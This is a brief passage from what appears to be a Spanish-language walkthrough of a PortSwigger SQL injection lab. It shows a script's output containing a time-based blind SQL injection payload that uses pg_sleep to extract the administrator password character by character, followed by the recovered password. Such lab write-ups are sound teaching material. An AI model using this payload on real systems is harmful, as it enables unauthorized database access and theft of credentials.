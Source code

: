 ```null
python3 /home/rubbx/Desktop/sqli_lab12.py
[../.....] Blind SQLi:: jCIXibJNL8DfHHYA'||(select case when substring(password,20,1)='d' then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -
[b] Password:: g4gkwyt5fjqjdpeub86d
```

La introduzco y termino el laboratorio

<img src="/img/articulos/sqli-portswigger/55.png" alt="">